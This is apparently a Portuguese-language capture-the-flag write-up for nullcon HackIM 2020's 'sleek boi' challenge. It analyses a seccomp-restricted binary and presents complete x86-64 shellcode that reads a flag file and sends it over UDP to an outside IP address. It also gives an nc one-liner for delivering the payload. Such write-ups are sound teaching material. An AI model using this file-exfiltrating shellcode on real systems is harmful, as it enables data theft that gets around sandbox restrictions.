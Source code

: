 # sleek boi


## Infos
**Descrição**: I don't talk, but I can be submissive

**Anexo**: [chall](attachments/chall)


## Análise do desafio 

Neste desafio recebemos um arquivo binário com as seguintes características:
<pre>
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
</pre>

Analisando estaticamente o anexo percebemos três funções interessantes. São elas:

- main 
- sub_D0E (**child_do**)
- sub_B74 (**setup_syscall_filter**)

### main

A função **main** mapeia uma região de memória de 16Kb com permissões de leitura, escrita e execução. Logo em seguida este espaço é preenchido com um buffer lido de *stdin*.

Após um *fork* bem-sucedido a função **child_do** é executada pelo processo filho tomando como argumento um ponteiro para a região mapeada acima.

<pre lang="c">
void main(int argc, char *argv[ ]){
  int v3, v4;
  __pid_t v5; 
  char *buf; 
  
  v3 = getpagesize();
  buf = mmap(0LL, -v3 & 0x4000, 7, 34, -1, 0LL);
  if ( !buf )
    __assert_fail("psc != NULL", "chall.c", 0x5Du, "main");
  fflush(stdout);
  v4 = getpagesize();
  buf[(signed int)read(0, buf, -v4 & 0x4000)] = -61;
  v5 = fork();
  if ( v5 < 0 )
    perror("fork");
  if ( v5 > 0 ){
    wait(0);
    exit(0);
  }
  child_do(buf);
}
</pre>

### child_do

A função **child_do** faz uma chamada para a função **setup_syscall_filter** (única diferença em relação ao desafio [meek boi](https://github.com/nullcon/hackim-2020/tree/master/pwn/meek_boi)).

Em seguida o *file descriptor* para */dev/null* é duplicado para *stdin*, *stdout* e *stderr* e o fluxo de execução é desviado para o espaço mapeado na função **main**. 

<pre lang="c">
void child_do(void (*f)()){
  unsigned int fd; // ST1C_4
  
  setup_syscall_filter();
  fclose(stdin);
  fclose(stdout);
  fclose(stderr);
  fd = open("/dev/null", 2);
  dup2(fd, 0);
  dup2(fd, 1);
  dup2(fd, 2);
  f();
  exit(0);
}
</pre>

### setup_syscall_filter

Em **setup_syscall_filter** são atribuídas, via *prctl*, restrições às chamadas de sistema que podem ser executadas pelo processo.

Utilizando a ferramenta [seccomp-tools](https://github.com/david942j/seccomp-tools) podemos visualizar facilmente quais *syscalls* estão sendo filtradas.


<pre lang="c">
0000: 0x20 0x00 0x00 0x00000004  A = arch
0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
0002: 0x20 0x00 0x00 0x00000000  A = sys_number
0003: 0x15 0x06 0x00 0x0000003b  if (A == execve) goto 0010
0004: 0x15 0x05 0x00 0x00000142  if (A == execveat) goto 0010
0005: 0x15 0x04 0x00 0x0000002a  if (A == connect) goto 0010
0006: 0x15 0x03 0x00 0x00000031  if (A == bind) goto 0010
0007: 0x15 0x02 0x00 0x0000002b  if (A == accept) goto 0010
0008: 0x15 0x01 0x00 0x00000120  if (A == accept4) goto 0010
0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
0010: 0x06 0x00 0x00 0x00051234  return ERRNO(4660)
</pre>




## Solução

Este é um desafio clássico de *shellcoding*. Temos que passar para o *server* um payload que nos permita ler */home/pwn/flag*.
Para isso devemos contornar as seguintes restrições:

- não podemos interagir com *stdin*, *stdout* e *stderr*
- não podemos fazer chamada às *syscalls* filtradas em **setup_syscall_filter**

Na primeira versão deste desafio ([meek boi](https://github.com/nullcon/hackim-2020/tree/master/pwn/meek_boi)) é possível resolver através de uma *shell* reversa. Mas, no [sleek boi](https://github.com/nullcon/hackim-2020/tree/master/pwn/sleek_boi), não podemos estabelecer uma conexão TCP. Logo, temos que adotar outra estratégia. A alternativa que utilizei neste desafio foi exfiltrar a *flag* via UDP.


<pre lang="asm">
; sm.asm
section .text
global _start

_start:
  ; just to ensure that the child process regs will not get in the way
  xor rax, rax
  xor rbx, rbx
  xor rcx, rcx
  xor rdx, rdx
  xor rdi, rdi
  xor rsi, rsi
  xor r8, r8
  xor r9, r9
  xor r10, r10
  xor r11, r11
  xor r12, r12
  xor r13, r13
  xor r14, r14
  xor r15, r15

 ; socket(PF_INET, SOCK_DGRAM, IPPROTO_IP)
  push byte 2
  pop rdi
  mov rsi, rdi
  xor rax, rax
  mov al, 0x29 ; __NR_socket
  syscall

  ; open("/home/pwn///flag", O_RDONLY)·
  mov r12, rax
  xor rsi, rsi
  push rsi
  push 1
  dec byte [rsp]
  mov rax, 0x67616c662f2f2f6e
  push rax
  mov rax, 0x77702f656d6f682f
  push rax
  mov rdi, rsp ; /home/pwn///flag
  xor edx, edx·
  xor esi, esi·
  push 2 ; __NR_open
  pop rax
  syscall

  ; read(fd, buf, 0x38)
  mov r11, rax ; flag fd to r11
  xor eax, eax ; __NR_read  = 0
  mov rdi, r11 ; flag fd
  push 0x38
  pop rdx
  sub rsp, 0x38 ; buf
  mov rsi, rsp
  syscall

  ;sendto(int sockfd, const void *buf, size_t len, int flags,
  ;      const struct sockaddr *dest_addr, socklen_t addrlen);
  lea r11, [rsp]
  mov rdx, rax ; len
  mov rax, 0x101010101010101
  push rax
  mov rax, 0x101010101010101 ^ 0x5a37e82c9a020002
  xor [rsp], rax
  mov r8, rsp ; {sa_family=AF_INET, sin_port=htons(666), sin_addr=inet_addr("44.232.55.90")}
  xor r10, r10·
  push r10
  push 1
  pop r10
  dec r10
  push 0x10
  pop r9 ; addrlen
  mov rsi, r11 ; buf
  mov rdi, r12 ; sockfd
  xor rax, rax
  mov al, 0x2c ; __NR_sendto
  syscall

  ; exit(0)
  xor rdi, rdi
  xor rsi, rsi
  xor rax, rax
  mov al, 0x3c
  syscall
</pre>

<pre lang='bash'>
$ nasm sc.asm -felf64 -o sc.o; ld sc.o -o sc
$ printf $(for i in $(objdump -d sc -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done) | nc pwn4.ctf.nullcon.net 5003
</pre>

### Flag
`hackim20{OMG_The_first_one_was_unintended}`





